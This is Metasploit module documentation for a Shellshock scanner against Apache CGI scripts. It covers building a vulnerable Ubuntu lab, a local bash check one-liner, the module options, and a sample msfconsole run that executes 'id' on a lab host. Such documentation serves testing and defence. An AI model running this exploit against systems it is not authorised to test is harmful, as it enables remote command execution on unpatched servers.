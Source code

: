 ## Vulnerable Application

This module scans for the Shellshock vulnerability, a flaw in how the Bash shell handles external
 environment variables. This module targets CGI scripts in the Apache web server by setting
 the `HTTP_USER_AGENT` environment variable to a malicious function definition.

### Creating a Vulnerable Environment
To setup an Environment that the scanner can be run against, follow the below steps to install a
 vulnerable OS and Apache version.

  To ensure that you have a vulnerable version of bash:

  1. Install [Ubuntu 12.04.5 LTS](http://cdimage.ubuntu.com/releases/12.04/release/)
  2. Log into console
  3. Confirm the host is vulnerable (see next section)
  4. Also install Apache2 from the apt repository with the following command

    ```
    sudo apt-get install apache2
    ```

  5. Enable cgi-mod in apache with the following command

    ```
    sudo ln -s /etc/apache2/mods-available/cgi.load /etc/apache2/mods-enabled/cgi.load
    ```

  6. Restart the apache service with the following command

    ```
    sudo service apache2 reload
    ```

  7. In your favorite text editor create a file (as root) in `/usr/lib/cgi-bin` called `test.sh` with the following contents:

    ```
    #!/bin/bash
    printf "Content-type: text/html\n\n"
    printf "Test!\n"
    ```

  8. Set the file to be executable with the following command

    ```
    sudo chmod +x /usr/lib/cgi-bin/test.sh
    ```

### To check if a host is vulnerable to the attack

   1. Run (on the host)

    ```
    env 'x=() { :;}; echo vulnerable' 'BASH_FUNC_x()=() { :;}; echo vulnerable' bash -c "echo test"
    ```

   2. The shell will return the below text if the environment is vulnerable

    ``` 
    vulnerable
    bash: BASH_FUNC_x(): line 0: syntax error near unexpected token `)'   
    bash: BASH_FUNC_x(): line 0: `BASH_FUNC_x() () { :;}; echo vulnerable'
    bash: error importing function definition for `BASH_FUNC_x'
    test
    ```

## Verification Steps

1. Do: run `msfconsole`
2. Do: use `auxiliary/scanner/http/apache_mod_cgi_bash_env`
3. Do: set `RHOSTS [IP]`
4. Do: set `TARGETURI [URI]`
5. Do: `run`

## Options

**CMD**

This is the command that will be run by the scanner. The default setting is `/usr/bin/id`.

**CVE**

This is the CVE that will be used to exploit the vulnerability.
The default setting is `CVE-2014-6271` but valid options are `CVE-2014-6271` or `CVE-2014-6278`.

**HEADER**

This is the user agent string that is sent when the module is run. The default setting is `User-Agent`.

**METHOD**

This is HTTP method used by the module.  The default setting is `GET`.

## Scenarios

### Ubuntu 12.04.5 LTS on Apache 2.2.22

  ```
msf > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 172.16.131.134
RHOSTS => 172.16.131.134
msf auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/test.sh
TARGETURI => /cgi-bin/test.sh
msf auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit

[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
